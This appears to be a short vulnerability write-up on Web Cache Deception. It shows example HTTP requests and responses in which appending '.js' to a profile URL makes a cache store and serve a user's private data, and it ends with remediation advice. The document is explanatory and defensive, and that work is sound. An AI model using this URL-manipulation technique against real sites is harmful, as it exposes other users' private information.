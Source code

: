 # Web Cache Deception
The vulnerability found concerns a misconfiguration of the web cache that allows an attacker to access private or sensitive content intended only for authenticated users.
By manipulating the URL, the attacker can trick the cache system and force the caching of a response containing confidential information.

# How to exploit
Here is a concrete example of how a discrepancy in path mapping within a web app can be exploited to perform a Web Cache Deception attack. Suppose we have a web app with an area reserved for user profiles

The authenticated user can access their profile page via the following URL:

**GET /user/123/profile HTTP/1.1**

**Host: www.example.com**

Server response:

HTTP/1.1 200 OK

Content-Type: text/html

Cache-Control: no-store

Cf-Cache-Status: BYPASS


<html>
<body>
Profilo di Jacopo
<p>Email: jacopo@example.com</p>
<p>Indirizzo: xxxxx</p>
</body>
</html>

In this case, the server correctly returns the profile information of authenticated user 123 (jacopo) and does not cache the response thanks to the Cache-Control: no-store header

**Attempted Web Cache Deception:**

The attacker could manipulate the URL by adding a commonly cacheable extension such as .js, thereby tricking the cache system into storing the response

**GET /user/123/profile.js HTTP/1.1**

**Host: www.example.com**

Server response:

HTTP/1.1 200 OK

Content-Type: text/html

Cache-Control: public, max-age=3600

Cf-Cache-Status: **HIT**

 the origin server might treat the URL **/user/123/profile.js** as if it were a normal request for user profile 123, ignoring the .js extension. However, the caching system might interpret the URL as a static resource (a .js file) and decide to cache the response


At this point, any user (authenticated or not) accessing the same manipulated URL in incognito mode or from another device will get the response cached with the sensitive profile data of user 123

**GET /user/123/profile.js HTTP/1.1**

**Host: www.example.com**

# Recommendations:
Disable caching for sensitive content: Correctly set cache headers, such as Cache-Control: no-store, for all sensitive resources and pages requiring authentication.

Path validation: Implement control logic on URLs to reject requests with unexpected extensions or unusual syntax.

Authentication control: Ensure that every request to sensitive resources always performs an authentication check, even if the resource has been previously cached.





